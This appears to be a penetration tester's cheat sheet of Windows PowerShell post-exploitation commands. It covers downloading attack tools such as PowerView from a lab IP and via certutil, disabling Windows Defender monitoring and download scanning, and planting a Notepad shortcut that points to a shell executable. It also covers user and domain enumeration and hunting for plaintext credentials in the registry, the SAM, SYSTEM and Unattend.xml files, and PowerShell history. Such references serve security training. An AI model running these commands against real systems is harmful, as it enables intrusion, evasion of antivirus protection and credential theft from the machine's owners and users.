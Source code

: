 Download Files
```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1

curl -o example.txt http://example.com/file.txt

certutil.exe -urlcache -split -f http://<ip>/file file_save
```

Get Processes
```powershell
Get-Process | Format-Table -Property Name, Id, CPU, WorkingSet -AutoSize

Get-Process -Name "notepad"
```

Disable AV
```powershell
# Disable Windows Defender real time monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable Windows Defender scanning for all files downloaded
Set-MpPreference -DisableIOAVProtection $true
```

List Network Connections
```powershell
netstat -aon

arp -a
```

Connect to a machine with admin perms
```
Enter-PSSession -Computername <computername>
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```
### Who Am I?
```powershell
whoami
echo %username%

# Check Groups
whoami /groups

# Check Privileges
whoami /priv

whoami /all
```

### Where Am I?
```powershell
hostname
echo %hostname%
```
### Anyone home?
Local users
```powershell
net users
```

Domain users
```powershell
net users /domain
```
### What am I part of?
Local groups
```powershell
net groups
```

Domain groups
```powershell
net groups /domain
```
### What is this place?
```text
systeminfo
```
### Is it fancy?
Both should be the same for ease of exploitation, if either is 32-bit then try to gain a 64-bit shell.  
Use PowerShell
```powershell
[environment]::Is64BitOperatingSystem
[environment]::Is64BitProcess
```
### Am I tied up?
Check LanguageMode. FullLanguage is nicer to have.  
```powershell
$ExecutionContext.SessionState.LanguageMode
```
### Anything reachable?
```powershell
Get-AppLockerPolicy -Effective
Get-AppLockerPolicy -Effective | select -ExpandedProperty RuleCollections
```
### What does the inside look like?
Look for interesting services
```powershell
netstat -aon
```
### Leave me alone
Do you have admin privs?  

Disable Windows Defender real time monitoring
```powershell
Set-MpPreference -DisableRealTimeMonitoring $true	
```

Disable Windows Defender scanning for all files downloaded
```powershell
Set-MpPreference -DisableIOAVProtection $true	
```

### Sniff for Credentials
Common creds location, always in plaintext
```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

Look for interesting files that may contain creds
```powershell
dir /s SAM
dir /s SYSTEM
dir /s Unattend.xml
```

### Look Around
```powershell
#Starting, Restarting and Stopping services in Powershell
Start-Service <service>
Stop-Service <service>
Restart-Service <service>

#Powershell History
Get-History
(Get-PSReadlineOption).HistorySavePath #displays the path of consoleHost_history.txt
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

#Viewing installed execuatbles
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

#Process Information
Get-Process
Get-Process | Select ProcessName,Path

#Sensitive info in XAMPP Directory
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue #this for a specific user

#Service Information
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```